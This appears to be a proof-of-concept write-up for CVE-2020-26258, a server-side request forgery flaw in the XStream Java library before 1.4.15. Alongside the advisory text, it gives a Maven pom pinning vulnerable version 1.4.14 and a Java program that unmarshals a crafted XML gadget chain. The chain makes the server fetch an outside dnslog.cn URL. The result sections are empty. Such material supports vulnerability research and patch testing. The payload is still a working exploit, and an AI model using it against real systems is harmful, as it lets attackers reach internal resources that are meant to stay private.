


## Description

XStream is a Java library to serialize objects to XML and back again. In XStream before version 1.4.15, a Server-Side Forgery Request vulnerability can be activated when unmarshalling. 

The vulnerability may allow a remote attacker to request data from internal resources that are not publicly available only by manipulating the processed input stream. If you rely on XStream's default blacklist of the Security Framework, you will have to use at least version 1.4.15. The reported vulnerability does not exist if running Java 15 or higher. No user is affected who followed the recommendation to setup XStream's Security Framework with a whitelist! Anyone relying on XStream's default blacklist can immediately switch to a whilelist for the allowed types to avoid the vulnerability. Users of XStream 1.4.14 or below who still want to use XStream default blacklist can use a workaround described in more detailed in the referenced advisories.

## Environment

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>

<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>CVE-2020-26258</groupId>
  <artifactId>CVE-2020-26258</artifactId>
  <version>1.0-SNAPSHOT</version>

  <name>CVE-2020-26258</name>
  <!-- FIXME change it to the project's website -->
  <url>http://www.example.com</url>

  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>1.7</maven.compiler.source>
    <maven.compiler.target>1.7</maven.compiler.target>
  </properties>

  <dependencies>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>4.11</version>
      <scope>test</scope>
    </dependency>
      <!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
      <dependency>
          <groupId>com.thoughtworks.xstream</groupId>
              <artifactId>xstream</artifactId>
          <version>1.4.14</version>
      </dependency>
  </dependencies>
  <build>
    <pluginManagement><!-- lock down plugins versions to avoid using Maven defaults (may be moved to parent pom) -->
      <plugins>
        <!-- clean lifecycle, see https://maven.apache.org/ref/current/maven-core/lifecycles.html#clean_Lifecycle -->
        <plugin>
          <artifactId>maven-clean-plugin</artifactId>
          <version>3.1.0</version>
        </plugin>
        <!-- default lifecycle, jar packaging: see https://maven.apache.org/ref/current/maven-core/default-bindings.html#Plugin_bindings_for_jar_packaging -->
        <plugin>
          <artifactId>maven-resources-plugin</artifactId>
          <version>3.0.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-compiler-plugin</artifactId>
          <version>3.8.0</version>
        </plugin>
        <plugin>
          <artifactId>maven-surefire-plugin</artifactId>
          <version>2.22.1</version>
        </plugin>
        <plugin>
          <artifactId>maven-jar-plugin</artifactId>
          <version>3.0.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-install-plugin</artifactId>
          <version>2.5.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-deploy-plugin</artifactId>
          <version>2.8.2</version>
        </plugin>
        <!-- site lifecycle, see https://maven.apache.org/ref/current/maven-core/lifecycles.html#site_Lifecycle -->
        <plugin>
          <artifactId>maven-site-plugin</artifactId>
          <version>3.7.1</version>
        </plugin>
        <plugin>
          <artifactId>maven-project-info-reports-plugin</artifactId>
          <version>3.0.0</version>
        </plugin>
      </plugins>
    </pluginManagement>
  </build>
</project>
```

## How to SSRF

CVE_2020_26258.java

```java
import com.thoughtworks.xstream.XStream;

public class CVE_2020_26258 {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='javax.activation.URLDataSource'>\n" +
                "            <url>http://02l6ew.dnslog.cn/:</url>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```

Result:



Dnslog:



## Reference

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26258